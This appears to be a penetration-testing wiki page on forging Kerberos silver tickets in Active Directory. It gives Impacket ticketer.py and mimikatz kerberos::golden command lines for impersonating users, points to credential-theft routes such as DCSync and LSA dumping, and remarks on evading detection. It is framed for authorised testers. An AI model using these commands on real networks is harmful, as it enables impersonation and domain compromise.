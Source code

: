 In order to craft a silver ticket, testers need to find the target service account's RC4 key (i.e. NT hash) or AES key (128 or 256 bits). This can be done by capturing an NTLM response (preferably NTLMv1) and cracking it, by dumping LSA secrets, by doing a DCSync, etc.

"While the scope is more limited than Golden Tickets, the required hash is easier to get and there is no communication with a DC when using them, so detection is more difficult than Golden Tickets." ([adsecurity.org](https://adsecurity.org/?p=2011))
=== "UNIX-like"
    The Impacket script [ticketer](https://github.com/fortra/impacket/blob/master/examples/ticketer.py) can create silver tickets.
    ```bash
    # Find the domain SID
    lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

    # with an NT hash
    python ticketer.py -nthash "$NT_HASH" -domain-sid "$DomainSID" -domain "$DOMAIN" -spn "$SPN" "username"

    # with an AES (128 or 256 bits) key
    python ticketer.py -aesKey "$AESkey" -domain-sid "$DomainSID" -domain "$DOMAIN" -spn "$SPN" "username"
    ```
    The SPN (ServicePrincipalName) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations
=== "Windows"
    On Windows, mimikatz can be used to generate a silver ticket with `kerberos::golden`. Testers need to carefully choose the right SPN type (cifs, http, ldap, host, rpcss) depending on the wanted usage.
    ```bash
    # with an NT hash
    kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$serviceAccount_NThash /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

    # with an AES 128 key
    kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$serviceAccount_aes128_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

    # with an AES 256 key
    kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$serviceAccount_aes256_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt
    ```
!!! note
    A great, stealthier, alternative to silver ticket is to abuse `S4U2self` in order to impersonate a domain user with local admin privileges on the target machine by relying on Kerberos delegation instead of forging everything.